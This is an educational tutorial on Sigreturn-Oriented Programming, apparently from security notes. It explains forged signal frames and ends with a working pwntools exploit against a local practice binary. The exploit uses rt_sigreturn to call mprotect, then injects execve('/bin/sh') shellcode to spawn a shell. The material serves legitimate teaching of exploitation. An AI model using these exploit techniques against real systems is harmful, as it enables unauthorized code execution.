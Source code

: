 # Sigreturn-Oriented Programming (SROP)
This is a technique which can be used when there are few or not particularly useful gadgets. It requires only 2 gadgets: a way to manipulate `rax` and a `syscall`. The trade-off, however, is that it requires a bigger overflow depending on what you want to achieve.

When a signal occurs in Linux, the kernel stores the state of the process by constructing a *Signal Frame* on the stack. Once the signal has been processed, the `rt_sigreturn` syscall is envoked to restore the process's state from the stack. `rt_sigreturn`, however, does not check whether or not the state it is restoring from the stack is the same as the state that the kernel pushed onto it. Usually, this is not a problem because `rt_sigreturn` is never called without a signal having been processed - the syscall for it in libc is actually defined to just return an error code. Interestingly enough, there are also no protection mechanism to ensure that `rt_sigreturn` is called only after a signal has been processed which means that nothing is stopping an adversary from calling it and modifying the process's state by manipulating what is on the stack.

### The Signal Frame
The signal frame represents the state of a process which is backed up onto the stack when a signal needs to be handled and has the following format:

![](Resources/Images/ROP/Signal%20Frame.svg)

When `rt_sigreturn` is invoked, the top 248 bytes of the stack will be restored into the above locations.

### The Exploit
Consider the following programme:

![](Resources/Images/ROP/checksec%20srop.png)

![](Resources/Images/ROP/Sigreturn%20Programme.png)

The highlighted code allows an adversary to read 768 bytes into a buffer of size only 32, which results in a buffer overflow. In order to trigger the buffer overflow, we can inspect the code and calculate (alternatively you can fuzz the programme) the number of padding bytes which we will need - this turns out to be 40. Since the NX is enabled, we will need to build a ROP chain. Unfortunately, there is a little snag - there are barely any gadgets available. 

![](Resources/Images/ROP/SROP%20Gadgets.png)

So we will have to be more sophisticated and use Sigreturn-oriented programming. We see that there is a readily-available `syscall` gadget, but there is no straightforward way to manipulate the `rax` registered which is needed for issuing syscalls.

Upon further inspection, the `loc.write` procedure invokes `sys_write` which is lucky for us because if `sys_write` is successful, it returns the number of characters written in `rax`. Now that we know how to manipulate `rax`, we turn our attention to the construction of our ROP chain.

The ROP chain begins by invoking `loc.vuln` again, so that it may in turn invoke `loc.write`. Once `loc.vuln` is called, the programme will ask us for input. We need to send 14 characters (the 15-th being the `\n` at the end) to it, so that `loc.write` can then print those 15 characters and set `rax` equal to 15 as a result. Once these characters have been written, `loc.vuln` will return execution to our ROP chain. Since `rax` now contains the syscall number of `rt_sigreturn`, namely 15, the next instruction in the ROP chain should be `syscall`.

`rt_sigreturn` will take the top 248 bytes of the stack and attempt to restore the state of the process from them. This means that all registers will be overwritten with values from the stack. Since we control what is on the stack via the buffer overflow, we also control what gets put into those registers. Therefore, the payload for the ROP chain should also contain an artificial signal frame after the `syscall` instruction, which will be the top of the stack.

From here on, all that is left is figuring out a quick way to get a shell. I have opted for some shellcode which invokes `execve` with `"/bin/sh"`. To do this we need to use `sys_mprotect` to change the permissions of a memory region to read-write-execute. Therefore, the registers inside our malicious signal frame should contain the following values:
- `rax` - `0xA` (the number for the `sys_mprotect` system call)
- `rdi` - the beginning of the memory region whose permissions we want to change
- `rsi` - the size of the memory region 
- `rdx` - `0x7` (RWX permissions)
- `rip` - the address of the `syscall` gadget

Now, it would have been nice if we had a way to preserve the value of the stack pointer, but that is not possible. Since we are forced to overwrite it, however, we might as well make do with what we can. We have no way of referring to the stack prior to `rt_sigreturn`, so we will just invent a new one!

In order to achieve this, we need to find a location in memory which contains the address of `loc.vuln`, even if it does so only coincidentally. The reason for this is that, after `rt_sigreturn` finishes, `rip` will be set to the `syscall` gadget which will execute `sys_mprotect`. The instruction after the syscall is a `ret` which means that the value of the location pointed to by `rsp` will be copied to `rip`, and we want it to then proceed again with the execution of `loc.vuln`. Hence why `rsp` should contain a *pointer* to the address of `loc.vuln`. 

Now that memory is executable, we proceed by exploiting `loc.vuln` yet another time in order to execute the shellcode which spawns a shell. 

![](Resources/Images/ROP/Sigreturn%20Exploit.svg)

With this information we can construct an exploit using pwntools:

```python
from pwn import *

context.clear(arch='amd64')

p = process("./srop")

syscall_address = 0x401014 # &syscall
sigreturn_number = 0xF
mprotect_number = 0xA
mprotect_permissions = 0x7

vuln_address = 0x40102e # &loc.vuln()
pointer_to_vuln_address = 0x4010d8 # &&loc.vuln() - using a debugger, I found that this location contains 0x40102e at runtime

padding = b'A' * 40

signal_frame = SigreturnFrame(kernel="amd64")
signal_frame.rax = mprotect_number
# It does not matter what memory we make RWX, but for simplicity, we are just going to make a huge chunk from the beginning of the binary executable. We just need to make sure that the new stack will be contained in it.
signal_frame.rdi = 0x400000 # Beginning of the memory block (in this case, the binary)
signal_frame.rsi = 0x10000 # Size of the memory block
signal_frame.rdx = mprotect_permissions
signal_frame.rip = syscall_address # This will proceed to execute sys_mprotect
signal_frame.rsp = pointer_to_vuln_address # Beginning of the new stack

payload = padding + p64(vuln_address) + p64(syscall_address) + bytes(signal_frame)
p.sendline(payload)
p.recv()

# Send 15 characters (14*'A' + '\n')
p.sendline(b'A' * (sigreturn_number - 1))
p.recv()

# Remove the comments in the assembly in order for it to compile
shellcode = asm("""
mov rdi, 0x68732f6e69622f ; '/bin/sh\x00' in little-endian
push rdi
mov rdi, rsp
mov rax, 0x3b ; execve syscall number
xor rsi, rsi
xor rdx, rdx
syscall
""", arch="amd64")

# The stack pointer will be moved 40 bytes down and the padding will take those 40 bytes, reaching pointer_to_vuln_address. We then add 1 byte for the value contained at pointer_to_vuln_address itself and then add 1 more byte to make room for the actual shellcode_address.
shellcode_address = pointer_to_vuln_address + 0x10

payload = b'A'*40 + p64(shellcode_address) + shellcode
p.sendline(payload)

p.interactive()
```

![](Resources/Images/ROP/Sigreturn%20shell.png)